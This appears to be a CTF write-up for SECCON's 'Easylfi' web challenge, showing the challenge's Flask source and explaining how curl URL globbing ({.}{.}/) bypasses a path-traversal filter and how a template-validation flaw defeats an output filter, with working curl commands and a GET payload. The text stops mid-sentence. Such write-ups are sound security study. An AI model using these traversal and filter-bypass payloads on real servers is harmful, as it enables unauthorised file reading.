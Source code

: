 ```yaml
---
title: Easylfi
published: true
ayout: post
date: 2022-10-15 18:54 +0600
tags: [CTF]
featured: false
---
```


I solved some web challenges with my idol ginoah. The challenges are awesome!

Description:

Can you read my secret?

The goal is to LFI /flag.txt

This flask app use curl to get a local file

```code
        proc = subprocess.run(
            ["curl", f"file://{os.getcwd()}/public/{filename}"],
            capture_output=True,
            timeout=1,
        )
```

where filename is a path parameter

```code
@app.route("/")
@app.route("/<path:filename>")
def index(filename: str = "index.html"):
```

Apparently, we need to traverse like ../../../../flag.txt

There are two WAFs. The first one filter filename with % or ..

```code
    if ".." in filename or "%" in filename:
        return "Do not try path traversal :("
```

Here, we use [URL globbing](https://everything.curl.dev/cmdline/globbing) to bypass the first WAF. {.}{.}/ equals to ../ , so

we can access flag.txt with {.}{.}/{.}{.}/flag.txt

The second WAF filter any response with content SECCON

```code
@app.after_request
def waf(response: Response):
    if b"SECCON" in b"".join(response.response):
        return Response(b"Try harder")
    return response
```

I found a logic flaw in validate func used by custom template func. We can substitue any string for { , though the function is intented to allow only keys like {...}

```code
    for i, c in enumerate(key):
        if i == 0:
            is_valid &= c == "{"
        elif i == len(key) - 1:
            is_valid &= c == "}"
        else:
            is_valid &= c != "{" and c != "}"
```

But there's still a problem. We can only replace one { now, and it is not enough to enclose SECCON in curly brackets.

ginoah found that we can use {.,.} to make the filename we curl reflected in the output. e.g.

```code
$ curl 'file:///app/public/{.}{.}/{.}{.}/flag.tx{\{,t}'
--_curl_--file:///app/public/../../flag.tx{
--_curl_--file:///app/public/../../flag.txt
SECCON{dummydummy}
```

Now we have two { , we can replace the output twice to eliminate string SECCON by GET ```/{.}{.}/{.}{.}/flag.tx{\{,t}?{=}{&{%0a--curl--file:///app/public/../../flag.txt%0aSECCON}=FLAG```

The original solution by ginoah is trickier and shorter than it. We can use query string in file:// protocol, though it takes no effect.  The query string is revealed in the output e.g.

```code
$ curl 'file:///app/public/{.}{.}/{.}{.,.}/flag.txt?\{'
--_curl_--file:///app/public/../../flag.txt?{
SECCON{dummydummy}
--_curl_--file:///app/public/../../flag.txt?{
SECCON{dummydummy}
```

Then, we can get the flag by

